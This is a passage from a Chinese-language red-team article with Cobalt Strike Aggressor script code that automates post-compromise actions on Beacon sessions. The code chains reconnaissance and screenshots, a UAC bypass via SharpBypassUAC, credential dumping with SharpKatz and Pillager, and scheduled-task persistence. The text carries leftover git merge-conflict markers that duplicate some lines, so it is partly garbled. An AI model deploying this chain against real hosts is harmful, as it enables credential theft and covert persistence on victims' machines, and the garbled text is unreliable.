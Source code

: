 ```plain
                $z = $x - $y                              
            }
        }
    }

    blog($1, "\c8=====================");
    blog($1, "\c8当前主机总存活数： $+ $x");
    blog($1, "\c8管理员权限会话存活数： $+ $y");
    blog($1, "\c8用户权限会话存活数： $+ $z");    
    blog($1, "\c8=====================");
}
```

### 0x07 执行场景判断

对于实战中 Beacon 上线主要是以下四类场景：

<<<<<<< HEAD
1.  直接上线普通用户权限 Session（ 无 UAC ）
2.  直接上线管理员用户权限 Session（ 俗称带 \* 权限 ）
=======
1.  直接上线普通用户权限 Session（无 UAC）
2.  直接上线管理员用户权限 Session（俗称带 \* 权限）
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
3.  先上线普通用户权限，通过 **BypassUAC** 或 **权限提升** 操作再上线管理员用户权限 Session
4.  重复上线任意权限 Session

相比普通权限用户 Session，管理员权限用户 Session 在凭据获取、隐蔽权限维持等方面有更多方式，同时又要避免重复执行，因此 场景 2 的执行流程 = 场景 1 + 场景 3

#### 自动权限维持场景

这里用两个场景函数进行编排示例：

-   `NormalUser_Chain` 函数用来编排不需要管理员权限即可执行的操作如信息收集、屏幕截图、上传文件等；
-   `OnlyAdmin_Chain` 函数用来编排只有管理员权限才能做的操作比如凭据获取、隐蔽权限维持等。

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
##### 用户执行链编排
sub NormalUser_Chain {
    UP_Loader($1);
    beacon_inline_execute($1,readbof($1, "whoami"), "go", $null);
    beacon_inline_execute($1,readbof($1, "ipconfig"), "go", $null);
    beacon_inline_execute($1,readobj($1, "screenshot"), "go", $null);
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "sys");
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHostInfo.exe"), "-i $internalIP\/24");
}

sub BypassUAC {
    inlineExecute-Assembly($1,script_resource("/scripts/SharpBypassUAC.exe"), "-b computerdefaults -e $b64encodeFullPath");
}

sub OnlyAdmin_Chain {
    inlineExecute-Assembly($1,script_resource("/scripts/SharpKatz.exe"), "");
    Pillager($1);
    inlineExecute-Assembly($1, script_resource("/scripts/SharpSchTask.exe"), "$LoaderFullPath 1");
}
```
